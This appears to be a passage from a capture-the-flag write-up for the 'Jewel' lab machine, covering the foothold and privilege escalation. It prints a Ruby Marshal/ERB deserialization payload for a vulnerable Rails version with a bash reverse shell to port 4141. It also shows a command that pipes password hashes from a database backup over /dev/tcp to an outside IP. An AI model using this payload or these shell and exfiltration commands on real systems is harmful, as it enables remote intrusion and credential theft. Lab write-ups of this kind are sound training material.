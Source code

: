 * Found the vulnerability and its location now time to exploit it.
* For exploiting it we need to install rail console to create payload that specified in the PoC:
  * install the same Rail version that is vulnerable for this exploit.

* starting console:

	  $ bundle exec rails console
	  irb(main):>

* Creating Payload
```ruby
code = '`/bin/bash -c "bash -i &>/dev/tcp/{IP}/4141 0>&1"`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts "Payload"
require 'uri'
puts URI.encode_www_form(payload: payload)
```

this give us usr encoded payload.



* start netcat, intercet the username update request in burp, past payload in username field and forward the request and then refresh the page and payload get execute and we get shell.

  ![](screenshots/jewel-foothold.GIF)


# Privilege Escalation

* Running linpeas with `-a` one funny thing heppend i get sudo password of user bill:

  ![](screenshots/linpeas-bruteforce.png)

  * but i don't thing that this is the intentional way.

* digging more i found a unusual file in `/var/backups/` dump_2020-08-27.sql.

	  (remote) bill@jewel.htb:/var/backups$ grep -E "bill"\|"jennifer" dump_2020-08-27.sql 
	  2       jennifer        jennifer@mail.htb       2020-08-27 05:44:28.551735      2020-08-27 05:44:28.551735      $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
	  1       bill    bill@mail.htb   2020-08-26 10:24:03.878232      2020-08-27 09:18:11.636483      $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW

  * these hashes are diffrent form last time and when try to crack them i successfully crack bill hash and get the same password that linpeas cracked.

		(remote) bill@jewel.htb:/var/backups$ grep -E "bill"\|"jennifer" dump_2020-08-27.sql | awk '{print $2":"$8}' > /dev/tcp/10.10.15.71/4141
